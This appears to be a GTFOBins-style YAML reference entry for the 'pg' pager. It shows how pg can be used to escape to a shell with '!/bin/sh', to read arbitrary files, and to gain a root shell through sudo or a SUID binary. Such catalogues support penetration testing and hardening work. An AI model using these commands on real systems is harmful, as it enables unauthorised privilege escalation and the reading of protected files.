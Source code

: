 ```yaml
---
functions:
  execute-interactive:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo-enabled:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid-enabled:
    - code: ./pg file_to_read
---
```

